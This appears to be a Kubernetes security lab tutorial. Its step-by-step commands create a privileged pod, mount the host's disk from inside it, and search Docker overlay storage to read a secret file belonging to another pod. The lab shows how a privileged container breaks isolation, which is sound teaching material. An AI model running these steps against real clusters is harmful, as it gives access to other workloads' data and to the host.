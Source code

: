 #### Step 1 - Create a Non-Priveleged Super Secret Pod:
```sh
nano super-secret-pod.yaml
```
```sh
apiVersion: v1
kind: Pod
metadata:
  name: super-secret
  namespace: development
spec:
  containers:
  - image: nginx
    name: demo-pod
```
```sh
kubectl apply -f super-secret-pod.yaml
```
#### Step 2 - Create a Privileged Pod:
```sh
nano privileged.yaml
```
```sh
apiVersion: v1
kind: Pod
metadata:
  name: privileged
  namespace: development
spec:
  containers:
  - image: nginx
    name: demo-pod
    securityContext:
      privileged: true
```
```sh
kubectl apply -f privileged.yaml
```
#### Step 3 - Store Secret Data in Super Secret Pod:
```sh
kubectl exec -n development -it super-secret -- bash
echo "TOP Secret" > /root/super-secret.txt
```
logout of the super-secret pod

#### Step 4 - Connect to Privileged Pod:

Note: The disk name might be different in your-case. Please ensure you use the right naming while mounting.
```sh
kubectl exec -n development -it privileged -- bash
mkdir /host-data
```
```sh
mount /dev/vda1 /host-data
cd /host-data
cd /host-data/var/lib/docker/overlay2
find . -name super-secret.txt
```
